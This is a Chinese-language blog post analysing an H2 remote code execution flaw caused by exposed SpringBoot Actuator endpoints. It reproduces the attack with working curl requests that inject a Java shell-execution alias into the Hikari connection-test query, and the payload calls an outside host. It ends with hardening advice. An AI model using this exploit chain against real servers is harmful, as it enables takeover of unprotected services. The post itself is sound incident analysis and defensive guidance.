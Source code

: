 ```yaml
---
layout:     post
title:      SpringBoot Actuator配置不当导致的H2 RCE漏洞
subtitle:   RCE漏洞
date:       2023-02-23
author:     KC
header-img: img/post-bg-debug.png
catalog: true
tags:
    - SpringBoot
    - Actuator
    - RCE漏洞
    - H2 RCE
---
```


> 聊一下由于SpringBoot Actuator配置不当导致的H2 RCE漏洞

### 背景

近期公司生产环境服务器发现了某个SpringBoot服务由于每次获取数据库连接报错导致服务发生了不可用现象,经过一段时间的排查分析发现了该问题与H2 RCE漏洞有关,遂记录下该问题复现的过程以及出现的一些必要条件。


### 漏洞概述
远程代码执行 （RCE） 是一类软件安全缺陷/漏洞。可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

#### 案发现场
![](http://www.kcblog.cn/img/2023-02-23/1.jpg)
项目频繁打印上图所示的报错,导致了该服务触发了Hystrix服务降级,进而导致服务完全不可用。
经过排查发现该项目添加了如下配置

```yaml
management:
  endpoints:
    web:
      exposure:
        include: "*" #暴露所有节点
  endpoint:
    health:
      show-details: ALWAYS  #显示详细信息
```

该配置是SpringBoot Actuator的配置，主要作用是暴露该项目所有的actuator相关的访问端口和访问路径。通过一些特定的端口路径可以直接访问到SpringBoot项目内的各种配置参数和环境变量以及对它们进行修改，这种方式如果使用不当可能会造成信息泄露、H2 RCE漏洞等严重的安全隐患。根据上图中的报错日志基本可以确定是SpringBoot Actuator的配置不当导致了H2 RCE安全漏洞。

#### 问题复现

本地服务器在不更改SpringBoot Actuator配置的情况下部署相同的服务实例,如下图所示
![](http://www.kcblog.cn/img/2023-02-23/2.jpg)
可以看到通过actuator/env端口直接查看到该服务的一些核心配置,如mysql数据库等

###### 发送如下POST请求修改该项目spring.datasource.hikari.connection-test-query的值

```shell
curl --location 'http://192.168.10.60:9095/actuator/env' \
--header 'Content-Type: application/json' \
--data '{
    "name": "spring.datasource.hikari.connection-test-query",
    "value": "CREATE ALIAS EXEC AS '\''String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'\''; CALL EXEC('\''curl 192.168.1.188'\'');"
}'
```

再次刷新actuator/env页面发现spring.datasource.hikari.connection-test-query的值已经被成功修改,这个时候配置并不会立即生效,需要通过刷新接口使配置生效

![](http://www.kcblog.cn/img/2023-02-23/3.jpg)

###### 最后一步，向端点 /actuator/refresh 发送POST请求，使刚才修改的配置生效。

```shell
curl --location --request POST 'http://192.168.10.60:9095/actuator/refresh'
```

接下来随便请求该项目的任意接口执行sql之前都会出现案发现场图中提示的报错，进而导致服务不可用。

#### 原理

> HikariCP中的`connectionTestQuery`配置意义是在从池中给出一个连接之前被执行的query，也就是该属性下配置的query语句。 当攻击者通过Actuator漏洞成功修改了spring.datasource.hikari.connection-test-query属性之后，每次获取数据库连接时都会先执行该属性下配置的sql语句，然后利用SQL语句中的用户自定义函数，进行RCE。
>
> 在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE ALIAS创建一个java函数然后调用它，示例如下:
>
> ```sql
> CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
> CALL GET_SYSTEM_PROPERTY('java.class.path');
> ```
>
> 仿照这个，创建命令执行的java函数可以如下:
>
> ```java
> String shellexec(String cmd) throws java.io.IOException { 
>     java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
>     if (s.hasNext()) {
>         return s.next();
>     } throw new IllegalArgumentException(); 
> }
> ```
>
> 那么RCE所需的SQL语句即:
>
> ```sql
> CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
> CALL EXEC('curl 192.168.1.188');
> ```

万幸的是我们服务器中没有使用到H2数据库，只是会导致每次执行RCE语句时报错，没有造成太大损失。

#### 总结

尽量不要将SpringBoot服务Actuator的所有端口暴露出来，假如真的要用的话要保证该服务对应的端口不要直接暴露在外网环境中，同时可以开启security功能，配置访问权限验证，类似配置如下：

```properties
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxx
```

